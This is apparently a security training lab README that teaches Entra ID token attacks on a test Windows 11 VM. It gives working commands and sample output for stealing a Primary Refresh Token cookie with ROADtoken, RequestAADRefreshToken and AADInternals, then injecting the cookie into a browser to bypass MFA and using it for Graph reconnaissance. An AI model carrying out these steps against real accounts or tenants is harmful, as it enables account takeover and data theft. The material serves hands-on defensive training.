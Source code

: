 # Lab 3 - Token Attacks
### Prepare a victim user with high privileges: 
1. RDP and login to the Win11 VM using the "***YOURUSER@YOURDOMAIN.onmicrosoft.com***" "victim" user that you've created in the previous lab.
2. run ```dsregcmd /status``` and make sure you see ```AzureAdPrt : YES```
    ![prt](prtexists.png)

3. Make sure you are verified:
    1. open Edge and make sure you have your profile logged in
    2. go to Account Info and make sure you don't have any warning about not being verified, if you have then verify yourself.
        ![verifi](verifyAccount.png)
#
# Attacks
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Win 11 VM 

#
## 1.Steal-the-PRT-Cookie 
Note: This method will bypass MFA only if the user has authenticated using MFA in its Windows

#### Option 1: steal PRT Cookie using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 
```

#### Option 2: steal PRT Cookie using RequestAADRefreshToken.exe tool
Uses the MicrosoftAccountTokenProvider DLL to request a new PRT cookie.
Download and Run RequestAADRefreshToken.exe from this folder (directly from inside the VM), it will save the output on disk as well as print the tokens to the console.

Note: PRT Cookie can only be used once and its TTL is short
```
Requesting cookies for the following URIs: https://login.microsoftonline.com/
PID  : 37808

Uri: https://login.microsoftonline.com/
    Name      : x-ms-RefreshTokenCredential
    Flags     : 8256
    Data      : <...snip JWT...>; path=/; domain=login.microsoftonline.com; secure; httponly
    P3PHeader : CP="CAO DSP COR ADMa DEV CONo TELo CUR PSA PSD TAI IVDo OUR SAMi BUS DEM NAV STA UNI COM INT PHY ONL FIN PUR LOCi CNT"
```

#### Once PRT Cookie is in your possession:
1. Clear your browser cookies and go to https://myapps.microsoft.com
2. F12 (Chrome dev tools) -> Application -> Cookies
3. Delete ALL cookies and then add one named `x-ms-RefreshTokenCredential` and set its value to the JSON Web Token(JWT) in the `Data` field that RequestAADRefreshToken.exe output
4. Refresh the page (or visit https://myapps.microsoft.com again) and you'll be logged it

# Next Step - Reconnisance

### Recon using AADInternals tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
Import-Module AADInternals
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

# if you get "Authorization code not received!" error, then make sure your device is logged in to the user properly(open Edge and sync the profile, go to the windows account settings on Windows and make sure it doesn't need to get verified)
```

### Recon using roadrecon tool
Use BrowserCore.exe to request a new PRT cookie with the current existing authentication context:
```powershell
# Get the nonce first
roadrecon auth --prt-init 

# Get a new PRT Cookie
.\ROADtoken.exe <nonce> 

# using the new PRT Cookie, ask for an access token
roadtx browserprtauth --prt-cookie <cookie> -url

# look at the access token
type .roadtools_auth

roadrecon gather

roadrecon gui

# bonus: authenticate using roadrecon
roadrecon auth --access-token eyJ0eXA... # AT for msgraph is needed
roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
# bonus 2: search for the client_id here to see to what it has asked At for: https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

```

#### Continue your exploration...

You can start with:
```powershell
$prtToken = Get-AADIntUserPRTToken
$at = Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
$secureAt = ConvertTo-SecureString -String $at -AsPlainText -Force
Connect-MgGraph -AccessToken $secureAt
Get-MgUser

# Or via AAD Graph:
$client_id = "1b730954-1685-4b74-9bfd-dac224a7b894" 
$prtToken = Get-AADIntUserPRTToken
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id, see here for more https://github.com/dirkjanm/ROADtools/blob/master/roadtx/roadtools/roadtx/firstpartyscopes.json

Get-AzureADUser
```


